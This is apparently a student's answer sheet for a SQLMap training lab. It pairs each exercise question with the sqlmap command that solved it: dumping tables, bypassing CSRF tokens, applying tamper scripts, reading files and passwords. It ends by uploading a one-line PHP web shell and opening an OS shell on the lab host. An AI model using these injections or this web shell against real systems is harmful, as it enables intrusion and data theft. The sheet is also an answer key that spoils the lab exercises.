 # ANSWERS SQLMap ESSENTIALS
What's the contents of table flag2? (Case #2) = Detect and exploit SQLi vulnerability in POST parameter id
sqlmap -u http://167.71.128.18:30210/case2.php? --data 'id=1' --batch --dump
What's the contents of table flag3? (Case #3) = Detect and exploit SQLi vulnerability in Cookie value id=1
sqlmap -u http://167.71.128.18:30210/case3.php? --cookie='id=1*' --batch --dump
+ 1  What's the contents of table flag4? (Case #4) = Detect and exploit SQLi vulnerability in JSON data {"id": 1}
sqlmap -u http://167.71.128.18:30210/case4.php? --batch --data {'"id": 1'} --dump
 What's the contents of table flag5? (Case #5) = Detect and exploit (OR) SQLi vulnerability in GET parameter id
sqlmap -u http://167.71.138.188:30700/case5.php?id=1 --level=5 --risk=3 --batch --dump
What's the contents of table flag6? (Case #6) = Detect and exploit SQLi vulnerability in GET parameter col having non-standard boundaries
sqlmap -u http://167.71.138.188:30700/case6.php?col=id --prefix='`)' --batch --dump
What's the contents of table flag7? (Case #7) = Detect and exploit SQLi vulnerability in GET parameter id by usage of UNION query-based technique
qlmap -u http://167.71.138.188:30700/case7.php?id=1 --union-cols=5 --batch --dump
What's the contents of table flag1 in the testdb database? (Case #1) = Detect and exploit SQLi vulnerability in GET parameter id
sqlmap -u "http://167.71.138.188:31784/case1.php?id=1" --banner --current-user --current-db --is-dba --batch --dump
What's the name of the column containing "style" in it's name? (Case #1) = Detect and exploit SQLi vulnerability in GET parameter id
sqlmap -u "http://165.22.126.213:31234/case1.php?id=1" --search -C style 
What's the Kimberly user's password? (Case #1)
sqlmap -u "http://165.22.126.213:31234/case1.php?id=1" --passwords --batch --dump
What's the contents of table flag8? (Case #8)
get token name and value via browser > network > requests.
sqlmap -u "http://178.128.163.230:31018/case8.php" --data="id=1&t0ken=Af1394DLz9Q2HfMDehREVTpjL6jlULjqLCrM2UO4vY" --csrf-token="t0ken" --batch --dump
What's the contents of table flag9? (Case #9)
sqlmap -u "http://178.128.163.230:31018/case9.php?id=1&uid=29125" --randomize=uid --batch --dump -v 5 | grep HTB
What's the contents of table flag10? (Case #10)
sqlmap -u 'http://165.22.113.109:32331/case10.php' --data="id=1" --random-agent --batch --dump
What's the contents of table flag11? (Case #11)
sqlmap -u 'http://165.22.113.109:32331/case11.php?id=1' --tamper=between --batch --dump  

Try to use SQLMap to read the file "/var/www/html/flag.txt
sqlmap -u "http://134.209.176.83:31022/?id=1" --file-read "/var/www/html/flag.txt"  
Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.
   sqlmap -u "http://134.209.176.83:31022/?id=1" --is-dba 
   35  sqlmap -u "http://134.209.176.83:31022/?id=1" --file-read "/var/www/html/flag.txt" (files is then located in output dir listed) 
   43  echo '<?php system($_GET["cmd"]); ?>' > shell.php
   45  sqlmap -u "http://134.209.176.83:31022/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
   46  curl http://134.209.176.83:31022/shell.php?cmd=ls+-la
   47  sqlmap -u "http://134.209.176.83:31022/?id=1" --os-shell
   in browser DO http://134.209.176.83:31022/shell.php?cmd=cat+/flag.txt
